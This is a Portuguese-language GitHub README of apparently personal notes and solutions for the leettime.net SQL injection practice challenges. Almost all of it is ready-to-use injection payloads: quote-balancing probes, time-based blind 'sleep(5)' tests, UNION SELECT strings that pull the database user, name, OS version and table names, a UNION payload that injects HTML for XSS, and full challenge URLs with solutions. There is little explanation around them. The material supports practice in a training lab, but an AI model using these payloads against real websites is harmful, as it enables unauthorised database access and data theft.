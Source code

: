 # leettime

DB : TABELA : COLUNA : LINHA
                              
select **COLUNA0,COLUNA1** from **TABELA0**
                                       
select * from **notas** where **IDaluno=1337 **         

select * from notas where IDaluno='1337'
                                          
select * from notas where IDaluno="1337"
                                             
select * from notas where IDaluno=(1337)
                        
select * from notas where IDaluno('1337')
                                                                                                     
select * from notas where IDaluno("1337")    
                                                 
?id=????              

```
________________________________________                                                              
     TABELA0         |   TABELA2        |                                                             
_____________________|__________________|                                                             
COLUNA1  |   COLUNA2 | COLUNA1 | COLUNA2|
---------------------|------------------|
 LINHA1  |   LINHA1  | [...]   | [...]
 LINHA2  |   LINHA2  |
             LINHA3  |
```
```
COMENTARIOS: -- | # | ;%00 | `

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

---------------------------------------------

UNION IDENTIFIQUE,<<<<<<<<<<<<

id=1' order by 1 --+anakein

?id=64' union select 13,<h1>PWN</h1>,3--+anakein      <<< XSS

?id=null' union select 66,user(),66--+anakein

?id=null' union select 66,database(),66--+anakein

?id=null' union select 66,concat(@@version_compile_os,0x20,@@version_compile_machine),66--+anakein

?id=null' union select 66,concat(select table_name from information_schema.tables where database()),66
```

## Basic Injection

#### Challenge 1 >> '
```
http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=null' union select 66,(select table_name from information_schema.tables where table_schema=database() limit 2,1),66--+anakein
```

![list_table1](https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_22-51-48.jpg)

#### Challenge 3  >> "

```
http://leettime.net/sqlninja.com/tasks/basic_ch3.php?id=1" and sleep(5)--+anakein
```
![chall_3](https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_23-28-14.jpg)

#### Challenge 4 >> ')

```
http://leettime.net/sqlninja.com/tasks/basic_ch4.php?id=1') and sleep(5) --+anakein
```

![chall_4](https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_23-10-32.jpg)


------

```
http://leettime.net/sqlninja.com/tasks/basic_ch2.php?id=1 and sleep(5);%00
```

**order by coluna_name**

ordena as colunas dentro de uma tabela

```
http://www.seusite.com.br/noticias.php?id=0 union select 0,0,0,database(),0,0,0,0,concat(@@version_compile_os,0x20,@@version_compile_machine),'<img src="http://weknowyourdreams.com/images/dragon/dragon-05.jpg">' --+1
```

